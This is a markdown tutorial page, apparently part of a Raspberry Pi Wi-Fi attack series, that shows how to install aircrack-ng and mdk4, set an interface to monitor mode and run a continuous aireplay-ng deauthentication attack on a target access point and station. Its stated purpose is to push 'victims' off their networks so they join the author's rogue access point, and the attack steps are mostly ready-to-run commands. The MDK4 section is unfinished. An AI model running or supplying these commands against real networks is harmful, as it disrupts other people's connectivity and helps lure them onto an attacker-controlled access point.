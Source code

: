 # WI-FI Jamming with Raspberry PI

If you have read the previous tutorial [Wi-Fi Analysis](../WIFIAnalysis), you know your Wi-Fi environment around your location. Now you can immediately create an [Simple Access Point](../AccessPoint) and wait until the first victims come by themselves. You can also do this process a little faster -> The IEEE 802.11 (_Wi-Fi_) protocol contains the provision for a deauthentication frames.

## Objective

The aim of this tutorial is to speed-up the process that stations will connect to your access point.

## Precondition

You should already have read (_and successful carried out_) the following tutorials.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Wi-Fi Analysis](../WIFIAnalysis)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim wireless-tools

# install needed packages
$ sudo apt install -y aircrack-ng mdk4
```

## Attention

> In this tutorial we need the `wlan1` interface in the so-called monitor mode. You cannot use the `wlan0` interface from the Raspberry PI for this.

If you have already set up an [Access Point](../AccessPoint) and/or a [Captive portal](../CaptivePortal), you should stop them now!

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash

# stop hostapd service
$ sudo systemctl stop hostapd

# stop dnsmasq service
$ sudo systemctl stop dnsmasq
```

## Monitor Mode

The Wi-Fi interface (_wlan1_) must be set into "monitor mode".

```shell
# set interface down
$ sudo ip link set wlan1 down

# turn interface into monitor mode
$ sudo iwconfig wlan1 mode monitor

# set interface up
$ sudo ip link set wlan1 up
```

## aireplay-ng (Aircrack-ng)

The Aircrack-ng suite includes many tools to assess Wi-Fi networks. Here we focus on `aireplay-ng` only. 

```shell
# show help (optional)
$ aireplay-ng --help

# start deauthentication attack
$ sudo aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan1
```

- `-0` means deauthentication mode
- `0` means send continuously deauthentication frames (_otherwise you can set a specific number_)
- `-a [mac address]` means MAC address of the access point
- `-c [mac address]` means MAC address of the station
- `wlan1` means the interface`(_in monitor mode_)

## MDK4

... in work ...

```shell
#
$
```

[Go Back](../readme.md)
